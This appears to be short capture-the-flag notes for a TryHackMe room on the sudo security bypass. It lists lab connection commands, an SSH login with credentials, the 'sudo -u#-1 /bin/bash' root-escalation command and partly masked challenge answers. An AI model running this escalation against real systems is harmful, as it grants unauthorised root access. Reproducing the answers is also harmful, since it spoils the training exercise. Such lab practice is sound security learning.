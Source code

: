 # Commands

    openvpn <confFile>
    ifconfig | grep -A 1 tun0


    ssh -p 2222 tryhackme@10.10.56.228

    tryhackme

    sudo -u#0 /bin/bash
    sudo -u#-1 /bin/bash



## SUDO Security Bypass


Challenges:
#1. What command are you allowed to run with sudo?
Ans: /bin/bash

#2. What is the flag in /root/root.txt?
Ans: THM{l33t_********_******}